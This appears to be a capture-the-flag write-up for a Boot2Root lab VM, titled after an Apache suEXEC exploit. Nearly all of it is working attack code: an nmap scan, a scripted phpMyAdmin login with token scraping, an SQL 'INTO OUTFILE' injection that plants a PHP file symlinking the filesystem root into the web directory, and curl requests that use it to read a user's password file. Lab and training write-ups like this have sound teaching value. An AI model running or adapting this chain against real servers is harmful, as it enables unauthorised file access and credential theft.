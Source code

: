 ## [Apache suEXEC](https://www.exploit-db.com/exploits/27397)

### Find our VM IP
```shell
IP=`prlctl list -f | grep "Boot2Root" | awk '{print $3}'`
if [ -z "$IP" ]; then 
  IP=0.0.0.0
fi
echo $IP
```

### Scan ports
```shell
nmap -sV $IP | grep "Apache"
```

### Auth to db
```shell
$db_login=`cat ../scripts/writeup1/db_login`
$db_password=`cat ../scripts/writeup1/db_password`

db_cookie_path="scripts/writeup1/db_cookie.txt"
curl https://$IP/phpmyadmin/index.php -X POST -k -c $db_cookie_path --data-raw "pma_username=$db_login&pma_password=$db_password" 2>/dev/null | grep "token" | head -n 1 | cut -d "=" -f 8 | cut -d "&" -f 1
token=`curl https://$IP/phpmyadmin/index.php -k -b $db_cookie_path 2>/dev/null | grep "token" | head -n 1 | cut -d "=" -f 3 | cut -d "'" -f 1`
echo $token
```

### A little injection
```sql
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

```shell
curl https://$IP/phpmyadmin/import.php -X POST -k -b $db_cookie_path --data-raw "is_js_confirmed=0&token=$token&pos=0&goto=server_sql.php&message_to_show=SQL-%D0%B7%D0%B0%D0%BF%D1%80%D0%BE%D1%81+%D0%B1%D1%8B%D0%BB+%D1%83%D1%81%D0%BF%D0%B5%D1%88%D0%BD%D0%BE+%D0%B2%D1%8B%D0%BF%D0%BE%D0%BB%D0%BD%D0%B5%D0%BD&prev_sql_query=&sql_query=SELECT+1%2C+'%3C%3Fphp+symlink(%5C%22%2F%5C%22%2C+%5C%22paths.php%5C%22)%3B%3F%3E'+INTO+OUTFILE+'%2Fvar%2Fwww%2Fforum%2Ftemplates_c%2Frun.php'&bkm_label=&sql_delimiter=%3B&show_query=1&ajax_request=true"
```

### Steal FTP password
```shell
curl https://$IP/forum/templates_c/run.php -k
curl https://$IP/forum/templates_c/paths.php/home/LOOKATME/password -k
```

-> [FTP Part Writeup2](../writeup2.md#Inspect FTP)
